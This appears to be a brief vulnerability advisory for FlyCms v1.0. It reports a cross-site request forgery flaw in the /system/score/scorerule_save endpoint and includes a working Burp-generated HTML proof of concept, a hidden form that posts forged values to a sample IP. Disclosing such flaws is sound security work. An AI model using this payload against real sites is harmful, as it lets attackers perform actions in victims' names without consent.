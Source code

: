 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/score/scorerule_save

The main harm comes from attackers stealing user identities and sending malicious requests

such as simulating users sending emails, messages, payments, transfers, etc.

![1](https://github.com/ljw11e/cms/assets/155146305/8253e274-b20e-43ea-bf29-09a35d5e1f84)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/score/scorerule_save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="score" value="cs" />
      <input type="hidden" name="remark" value="cs" />
      <input type="hidden" name="type" value="unlimite" />
      <input type="hidden" name="status" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/ljw11e/cms/assets/155146305/3cfb4df0-b9b0-4a35-8c84-a356a3112617)


Successed

![3](https://github.com/ljw11e/cms/assets/155146305/077bb135-18ad-4580-bfe6-39aded55fbe9)
